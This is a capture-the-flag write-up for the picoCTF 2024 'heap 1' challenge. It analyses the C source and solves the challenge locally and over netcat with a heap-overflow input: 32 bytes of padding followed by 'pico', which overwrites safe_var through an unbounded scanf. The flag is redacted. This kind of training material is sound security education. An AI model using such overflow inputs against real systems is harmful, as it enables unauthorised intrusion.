 # heap 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you control your overflow?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc tethys.picoctf.net 51438
 
Hints:
1. How can you tell where safe_var starts?
```

Challenge link: [https://play.picoctf.org/practice/challenge/439](https://play.picoctf.org/practice/challenge/439)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.

```c
int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Main basically does the following:

- Initialize the heap by calling the `init` function
- Print the contents of the heap with the `print_heap` function
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The `check_win` function (menu choice 4) will print the flag for us if we have managed to change the contents of the `safe_var` variable to `pico`

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_1]
└─$ ./chall

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5623223f06b0  ->   pico
+-------------+----------------+
[*]   0x5623223f06d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```

The difference between the memory positions is 32 bytes.

Let's write say 32 bytes of junk data followed by `pico`

```bash
Enter your choice: 2
Data for buffer: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5623223f06b0  ->   AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico
+-------------+----------------+
[*]   0x5623223f06d0  ->   pico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
zsh: segmentation fault  ./chall
```

Success, we managed to overwrite `safe_var` with the correct value.  
The segmentation fault error is due to the fact that no `flag.txt` file exists in the directory.

The cause is [the unbounded use of scanf](https://stackoverflow.com/questions/31379442/has-scanf-a-limited-bound-on-the-number-of-bytes-that-the-user-can-input) (`scanf("%s", input_data);`) in the `write_buffer` function.

### Get the flag

Finally, we connect to the site vith netcat and follow the same procedure

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_1]
└─$ nc tethys.picoctf.net 51438

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x561d1306b2b0  ->   pico
+-------------+----------------+
[*]   0x561d1306b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Heap (data structure) - Wikipedia](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Heap overflow - Wikipedia](https://en.wikipedia.org/wiki/Heap_overflow)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
